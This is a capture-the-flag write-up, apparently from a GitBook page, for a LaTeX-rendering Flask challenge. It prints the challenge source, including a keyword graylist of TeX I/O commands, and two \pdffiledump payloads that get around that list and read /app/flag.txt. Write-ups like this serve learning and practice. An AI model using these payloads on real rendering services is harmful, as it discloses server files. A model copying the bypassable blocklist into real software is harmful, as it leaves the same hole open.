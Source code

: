 # Fawazeer

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption><p>Flag @ /app/flag.txt</p></figcaption></figure>

```python
import os
import re
import subprocess
from flask import Flask, request, send_file
import random
import string

app = Flask(__name__)


graylist = [
    "^^",
    "afterassignment",
    "aftergroup",
    "batchmode",
    "catcode",
    "closein",
    "closeout",
    "command",
    "document",
    "def",
    "errhelp",
    "errcontextlines",
    "errorstopmode",
    "every",
    "expand",
    "expandafter",
    "immediate",
    "include",
    "input",
    "jobname",
    "loop",
    "lowercase",
    "makeat",
    "meaning",
    "message",
    "named",
    "newhelp",
    "noexpand",
    "nonstopmode",
    "open",
    "output",
    "pagestyle",
    "package",
    "pathname",
    "read",
    "relax",
    "repeat",
    "shipout",
    "show",
    "scrollmode",
    "special",
    "syscall",
    "toks",
    "tracing",
    "typeout",
    "typein",
    "uppercase",
    "write",
]

wrapper = "\\documentclass[12pt]{article}\n\\usepackage[latin1]{inputenc}\n\\usepackage{amsmath}\n\\usepackage{amsfonts}\n\\usepackage{amssymb}\n\\usepackage[mathscr]{eucal}\n\\pagestyle{empty}"


def generate_random_string(length=5):
    """Generate a random string of a specified length."""
    letters = string.ascii_letters + string.digits
    return "".join(random.choice(letters) for _ in range(length))


@app.route("/", methods=["GET"])
def index():
    return "Welcome Hacker! go grab your easy win."


@app.route("/render", methods=["GET"])
def render_latex():
    try:
        latex = request.args.get("latex", "")

        for word in graylist:
            if word in latex:
                return {"error": f"Graylist word detected."}, 403

        latex = wrapper + "\n\\begin{document}\n" + latex + "\n\\end{document}"
        rand = generate_random_string()
        path = f"temp_{rand}"
        with open(f"{path}.tex", "w") as f:
            f.write(latex)

        subprocess.run(["latexmk", "-pdf", "-interaction=nonstopmode", f"{path}.tex"])

        return send_file(
            f"{path}.pdf", as_attachment=True, download_name="rendered_pdf.pdf"
        )

    except Exception:
        return {"error": "hmm amigo.."}, 500


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
```

This task has filters that fobid us from reach I/O functions of LATEx

but \pdffiledump isn't graylisted

Crafting the payload&#x20;

<pre class="language-latex"><code class="lang-latex"><strong>\pdffiledump offset 0 length 1000 {/app/flag.txt}
</strong></code></pre>

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Now we got a part of the flag we need the missing piece

<figure><img src="../../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Part II payload , added offset

```latex
\pdffiledump offset 30 length 1000 {/app/flag.txt}
```

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Boom

<figure><img src="../../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>

